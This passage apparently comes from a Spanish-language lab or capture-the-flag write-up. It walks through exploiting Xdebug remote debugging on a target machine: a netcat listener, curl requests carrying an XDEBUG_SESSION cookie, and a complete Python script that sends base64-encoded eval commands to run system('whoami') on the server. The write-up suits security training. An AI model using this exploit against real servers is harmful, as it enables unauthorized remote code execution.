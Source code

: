    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recibimos datos del lado del servidor.

### Explotacion de la vulnerabilidad {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'eval -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```
